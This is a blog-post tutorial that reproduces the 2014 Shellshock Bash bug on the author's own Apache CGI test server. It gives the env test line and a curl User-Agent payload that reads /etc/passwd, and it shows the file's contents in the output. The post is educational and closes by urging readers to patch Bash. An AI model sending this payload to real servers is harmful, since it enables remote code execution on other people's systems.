 ```yaml
---
layout: post
title: Shellshock DIY
category: posts
image: shellshock/header.png
---
```


When [news of Shellshock first broke](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271), the main vector of attack was any application running on an Apache server via CGI. I don't run any Apache servers anymore, and if I did I probably wouldn't be running them with CGI (just not my preference). However, I wanted to try this bug out and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

Without further ado, let's hack ourselves!

First we'll go create an EC2 instance on AWS. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running we'll SSH into it and check if the default version of Bash is vulnerable.

{% highlight bash %}
$ ssh -l ubuntu [Your IP address] -i ~/.ssh/shellshock.pem
$ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(**Note:** I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If Bash is already patched on your machine, my next suggestion is to find a Vagrant image that isn't patched yet. If you can't, leave a comment below. I can post a tutorial on how to compile an old, vulnerable version of Bash and replace the patched one on your box; for science!) 

Ok next step: Installing Apache and configuring it to use CGI.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

That was easy. We need to tell Apache when to use CGI. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight apache %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}

The complete Apache configuration file for the virtual host we'll be using looks like this:

{% highlight apache %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}

Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight bash %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

**Note:** The contents of this file can be anything, as can the filename. In our case the file just needs to exist. I chose to copy the Bash script above from [https://www.invisiblethreat.ca/2014/09/cve-2014-6271/](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/) because it's an easy way to check that apache is configured correctly.

**Additional Note:** You may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart Apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}

If everything went according to plan, we should be able to run this script via CGI and have the result returned to us. Let's see if that works:

{% highlight bash %}
~
❯ curl http://[Your IP Address]/cgi-bin/poc.cgi
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.4.7 (Ubuntu) Server at [Your IP Address] Port 80</address>

HTTP_USER_AGENT=curl/7.30.0
SERVER_PORT=80
HTTP_HOST=[Your IP Address]
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/poc.cgi
REQUEST_URI=/cgi-bin/poc.cgi
SCRIPT_NAME=/cgi-bin/poc.cgi
REMOTE_PORT=34236
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_ACCEPT=*/*
REMOTE_ADDR=[Remote IP Address]
SHLVL=1
SERVER_NAME=
SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.0.0.153
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
_=/usr/bin/env
</pre>
</body>
</html>
{% endhighlight %}

Awesome! Now that everything is set up, let's exploit ourselves.

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Great success! We were successfully able to run an arbitrary code execution exploit on a remote machine (that we own).

Now go patch Bash!

Resources and helpful links:

- [How to Protect your Server Against the Shellshock Bash Vulnerability](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)
- [Everything you need to know about the Shellshock Bash bug](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)
- [CVE-2014-6271: BASH LETS YOU DO BAD THINGS. (SHELLSHOCK)](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/)
- [How do I secure Apache against the Bash Shellshock vulnerability?](http://security.stackexchange.com/questions/68146/how-do-i-secure-apache-against-the-bash-shellshock-vulnerability)
- [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)
- [Bash – ShellShocker – Attacks Increase in the Wild – Day 1](http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html)
